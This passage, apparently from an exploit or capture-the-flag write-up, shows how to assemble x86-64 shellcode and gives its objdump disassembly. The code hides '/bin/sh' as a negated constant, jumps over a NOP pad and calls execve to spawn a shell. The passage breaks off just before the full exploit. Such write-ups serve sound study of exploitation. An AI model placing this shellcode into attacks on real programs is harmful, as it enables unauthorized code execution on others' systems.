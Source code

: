 and to compile the shellcode:

```
$    nasm -f elf64 shellcode.asm
$    ld -o sheller shellcode.o
$    objdump -D sheller -M intel

sheller:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:    48 bf d1 9d 96 91 d0     movabs rdi,0xff978cd091969dd1
  400087:    8c 97 ff
  40008a:    e9 0c 00 00 00           jmp    40009b <_start+0x1b>
  40008f:    90                       nop
  400090:    90                       nop
  400091:    90                       nop
  400092:    90                       nop
  400093:    90                       nop
  400094:    90                       nop
  400095:    90                       nop
  400096:    90                       nop
  400097:    90                       nop
  400098:    90                       nop
  400099:    90                       nop
  40009a:    90                       nop
  40009b:    90                       nop
  40009c:    90                       nop
  40009d:    90                       nop
  40009e:    90                       nop
  40009f:    90                       nop
  4000a0:    90                       nop
  4000a1:    90                       nop
  4000a2:    90                       nop
  4000a3:    90                       nop
  4000a4:    90                       nop
  4000a5:    90                       nop
  4000a6:    90                       nop
  4000a7:    90                       nop
  4000a8:    31 f6                    xor    esi,esi
  4000aa:    f7 e6                    mul    esi
  4000ac:    04 3b                    add    al,0x3b
  4000ae:    48 f7 df                 neg    rdi
  4000b1:    57                       push   rdi
  4000b2:    54                       push   rsp
  4000b3:    5f                       pop    rdi
  4000b4:    0f 05                    syscall
```

Putting it all together, we get the following exploit:
